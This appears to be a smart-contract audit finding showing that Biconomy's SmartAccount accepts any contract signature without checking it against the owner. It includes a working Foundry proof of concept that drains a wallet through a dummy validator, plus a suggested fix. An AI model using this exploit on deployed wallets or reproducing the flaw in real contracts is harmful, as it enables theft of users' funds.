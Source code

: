 # SmartAccount authorization can be bypassed using a contract signature

The `SmartAccount` wallet supports contract signatures defined by EIP1271, similar to how Gnosis Safe does. Transactions to the wallet can be authorized by a contract that implements the `ISignatureValidator` interface. This feature is implemented in the `checkSignatures` function, around lines 314-343:

https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L314-L343

```solidity
if(v == 0) {
  // If v is 0 then it is a contract signature
  // When handling contract signatures the address of the contract is encoded into r
  _signer = address(uint160(uint256(r)));

  // Check that signature data pointer (s) is not pointing inside the static part of the signatures bytes
      // This check is not completely accurate, since it is possible that more signatures than the threshold are send.
      // Here we only check that the pointer is not pointing inside the part that is being processed
      require(uint256(s) >= uint256(1) * 65, "BSA021");

      // Check that signature data pointer (s) is in bounds (points to the length of data -> 32 bytes)
      require(uint256(s) + 32 <= signatures.length, "BSA022");

      // Check if the contract signature is in bounds: start of data is s + 32 and end is start + signature length
      uint256 contractSignatureLen;
      // solhint-disable-next-line no-inline-assembly
      assembly {
          contractSignatureLen := mload(add(add(signatures, s), 0x20))
      }
      require(uint256(s) + 32 + contractSignatureLen <= signatures.length, "BSA023");

      // Check signature
      bytes memory contractSignature;
      // solhint-disable-next-line no-inline-assembly
      assembly {
          // The signature data for contract signatures is appended to the concatenated signatures and the offset is stored in s
          contractSignature := add(add(signatures, s), 0x20)
      }
      require(ISignatureValidator(_signer).isValidSignature(data, contractSignature) == EIP1271_MAGIC_VALUE, "BSA024");
}
```

The issue here is that, even though the signature is validated against the contract, there's no relation or enforcement between the signer contract and the owner of the wallet. This means that signature checks can be easily bypassed using a contract signature.

## Impact

This represents a critical issue since the authorization of any wallet can be easily bypassed using a dummy contract that acts as the signer. 

This would let an attacker access and execute anything on any SmartAccount wallet. By calling the `execTransaction` function on the `SmartAccount` contract, an attacker can trigger a `call` or `delegatecall` in the context of the wallet and essentially execute any arbitrary code.

## PoC

In the following test, Bob creates a wallet and loads it with some balance. The attacker then uses a dummy contract that acts as the signature validator (`DummySignatureValidator`) and calls `execTransaction` to delegatecall a contract (`StealBalance`) that steals the funds from the wallet.

```solidity
contract DummySignatureValidator is ISignatureValidator {
    function isValidSignature(bytes memory, bytes memory) public override view returns (bytes4) {
        return 0x20c13b0b;
    }
}

contract StealBalance {
    function steal(address receiver) external {
        payable(receiver).transfer(address(this).balance);
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function test_SmartAccount_BypassAuthorization() public {
        // Bob creates a wallet and adds some ETH
        vm.startPrank(bob);

        address proxy = factory.deployWallet(bob, entrypoint, handler);
        SmartAccount wallet = SmartAccount(payable(proxy));

        vm.deal(address(wallet), 1 ether);

        vm.stopPrank();

        // Attacker bypasses authorization on Bob's wallet by using a dummy contract validator
        vm.startPrank(attacker);

        StealBalance stealer = new StealBalance();
        DummySignatureValidator validator = new DummySignatureValidator();

        Transaction memory tx = Transaction(
            address(stealer), // to
            0, //value,
            abi.encodeWithSelector(StealBalance.steal.selector, attacker), //data
            Enum.Operation.DelegateCall, // operation
            0 //targetTxGas
        );
        FeeRefund memory feeRefund = FeeRefund(
            0, // uint256 baseGas;
            0, // uint256 gasPrice; //gasPrice or tokenGasPrice
            0, // uint256 tokenGasPriceFactor;
            address(0), // address gasToken;
            payable(0) // address payable refundReceiver;
        );
        uint256 batchId = 0;
        uint256 nonce = 0;

        // Build signature pointing to dummy validator
        bytes32 r = bytes32(uint256(uint160(address(validator))));
        bytes32 s = bytes32(uint256(65));
        uint8 v = 0;

        bytes memory signature = abi.encodePacked(r, s, v, uint256(0));

        // Exec transaction
        wallet.execTransaction(tx, batchId, feeRefund, signature);

        // Attacker has stolen the funds
        assertEq(attacker.balance, 1 ether);

        vm.stopPrank();
    }
}
```

## Recommendation

The `checkSignatures` function should verify that the contract validator is the owner of the wallet.

```solidity
  // Check signature
  bytes memory contractSignature;
  // solhint-disable-next-line no-inline-assembly
  assembly {
      // The signature data for contract signatures is appended to the concatenated signatures and the offset is stored in s
      contractSignature := add(add(signatures, s), 0x20)
  }
  require(ISignatureValidator(_signer).isValidSignature(data, contractSignature) == EIP1271_MAGIC_VALUE, "BSA024");
+ require(_signer == owner);
```